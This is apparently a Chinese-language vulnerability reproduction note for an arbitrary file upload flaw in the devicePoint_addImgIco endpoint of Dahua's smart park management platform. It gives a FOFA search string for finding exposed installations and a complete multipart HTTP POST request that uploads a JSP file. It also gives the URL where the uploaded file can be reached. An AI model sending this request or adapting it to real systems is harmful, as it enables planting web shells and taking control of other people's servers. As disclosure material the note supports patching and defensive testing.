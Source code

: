 # 大华智慧园区综合管理平台devicePoint_addImgIco任意文件上传漏洞

# 一、漏洞描述
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。 大华智慧园区综合管理平台存在文件上传漏洞，攻击者可以通过devicePoint_addImgIco接口任意上传文件，导致系统被攻击与控制。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ FOFA：`app=”dahua-智慧园区综合管理平台”`

![1689521413401-0fcf65cb-53cc-4666-af1d-1dc09204909c.png](./img/hi1qO8cn6s8WakbW/1689521413401-0fcf65cb-53cc-4666-af1d-1dc09204909c-329370.png)

+ 登陆页面：

![1689521436792-cc9eee7b-0158-4165-98e2-cb02571c6b37.png](./img/hi1qO8cn6s8WakbW/1689521436792-cc9eee7b-0158-4165-98e2-cb02571c6b37-667321.png)

# 四、漏洞复现
构造如下数据包：

```plain
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Java/1.8.0_345
Host: 127.0.0.1:8009
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 223
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

![1689521496391-6cc01c58-3eaf-4f41-979e-cd73555e1a8c.png](./img/hi1qO8cn6s8WakbW/1689521496391-6cc01c58-3eaf-4f41-979e-cd73555e1a8c-471004.png)

上传文件访问地址：`http://127.0.0.1:8314/upload/emap/society_new/ico_res_221b04b177b8_on.jsp`

![1689521515458-6cc6cba2-23aa-48a9-935d-544867a65246.png](./img/hi1qO8cn6s8WakbW/1689521515458-6cc6cba2-23aa-48a9-935d-544867a65246-774167.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hfgy041afmv0g04c>